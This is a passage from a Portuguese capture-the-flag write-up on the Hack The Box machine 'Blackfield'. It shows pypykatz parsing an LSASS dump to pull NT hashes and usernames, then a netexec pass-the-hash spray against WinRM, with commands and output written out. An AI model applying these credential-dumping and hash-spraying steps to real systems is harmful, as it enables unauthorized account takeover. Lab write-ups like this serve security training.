 ```
                password (hex)

== LogonSession ==
authentication_id 365835 (5950b)
session_id 2
username UMFD-2
domainname Font Driver Host
logon_server 
logon_time 2020-02-23T17:59:38.218491+00:00
sid S-1-5-96-0-2
luid 365835
        == MSV ==
                Username: DC01$
                Domain: BLACKFIELD
                LM: NA
                NT: b624dc83a27cc29da11d9bf25efea796
                SHA1: 4f2a203784d655bb3eda54ebe0cfdabe93d4a37d
                DPAPI: NA
{...}

```

​	Como o arquivo possui muitos usuários e hashes, podemos fazer um filtro pelos usernames e adicinar os usuários na lista prévia de usuários.

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield/files]
└─$ pypykatz lsa minidump lsass.DMP | grep -i username: | sort -u | awk -F ':' '{print $2}'
INFO:pypykatz:Parsing file lsass.DMP
 
 Administrator
 dc01$
 DC01$
 svc_backup
```

​	Podemos fazer a mesma coisa para os hashes do tipo **NT**.

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield/files]
└─$ pypykatz lsa minidump lsass.DMP | grep -i NT: | sort -u | awk -F ':' '{print $2}'
INFO:pypykatz:Parsing file lsass.DMP
 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
 9658d1d1dcd9250115e2205d9f48400d
 b624dc83a27cc29da11d9bf25efea796
```

​	Com as listas criadas, podemos fazer um ataque de **Hash Spray** utilizando o **netexec** para descobrir qual usuário possui acesso ao winrm utilizando a técnica de PTH (Pass The Hash).

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield]
└─$ netexec winrm blackfield.local -u user.txt -H hashfile.txt
SMB         10.129.229.17   445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\Administrator:b624dc83a27cc29da11d9bf25efea796
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\Guest:b624dc83a27cc29da11d9bf25efea796
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\Ipwn3dYouCompany:b624dc83a27cc29da11d9bf25efea796
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\krbtgt:b624dc83a27cc29da11d9bf25efea796
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\lydericlefebvre:b624dc83a27cc29da11d9bf25efea796
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\support:b624dc83a27cc29da11d9bf25efea796
```